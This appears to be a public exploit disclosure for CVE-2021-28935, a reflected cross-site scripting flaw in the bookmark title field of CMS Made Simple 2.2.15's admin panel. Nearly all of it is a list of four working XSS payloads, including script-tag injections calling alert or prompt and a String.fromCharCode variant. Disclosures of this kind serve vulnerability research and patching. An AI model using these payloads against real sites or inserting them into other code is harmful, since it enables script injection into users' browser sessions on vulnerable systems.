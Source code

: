XSS
---

    # Exploit Title: CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS)
    # Date: 2021/03/19
    # Exploit Author: bt0
    # Vendor Homepage: http://www.cmsmadesimple.org/
    # Software Link: https://s3.amazonaws.com/cmsms/downloads/14832/cmsms-2.2.15-install.zip
    # Version: 2.2.15
    # CVE: CVE-2021-28935 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28935

    -----------------------------------------------------------

    If you log into Admin panel and open My Preferences you could be able to exploit XSS in title field

    Reflected XSS in /admin/addbookmark.php

    Some payloads that works:

    "><script>prompt(1)</script><"
    "><script>alert(1)</script><"
    63311';alert(1)//812
    //--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

    ------------------------------------------------------------
